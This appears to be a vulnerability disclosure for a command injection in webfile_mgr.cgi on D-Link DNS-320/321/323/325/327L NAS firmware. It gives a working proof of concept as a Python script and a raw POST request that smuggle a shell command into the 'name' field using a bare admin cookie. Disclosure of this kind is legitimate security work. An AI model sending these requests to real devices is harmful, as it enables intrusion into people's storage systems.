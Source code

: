 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_untar function of the file /cgi-bin/webfile_mgr.cgi.  The variable `name`is passed from a POST request and is assigned to `v5` via the `snprintf` function at line 36 and invoked by the `popen` command, the fix_path_special_char function did not work which leads to command execution. 
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723733729548-36a15469-1375-4b6f-b985-3e01119d22d9.png#averageHue=%23fdfdfd&clientId=u465935ab-a5f8-4&from=paste&height=342&id=u6a437f9f&originHeight=596&originWidth=1175&originalType=binary&ratio=1&rotation=0&showTitle=false&size=73674&status=done&style=none&taskId=u238fa5df-3ce6-48f0-bbc6-8883b3702fe&title=&width=674)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723733720319-c0a251e5-6a77-43af-8e9b-05d6376f19b5.png#averageHue=%23fafaf9&clientId=u465935ab-a5f8-4&from=paste&height=247&id=uffcdd6db&originHeight=247&originWidth=813&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20871&status=done&style=none&taskId=ufd0b5b29-8375-4e9e-8cd0-f447a275a86&title=&width=813)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/webfile_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_untar&name=%0atouch%09/tmp/123%0a.tar.tgz&path=122"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/webfile_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_untar&name=%0atouch%09/tmp/123%0a.tar.tgz&path=122
```

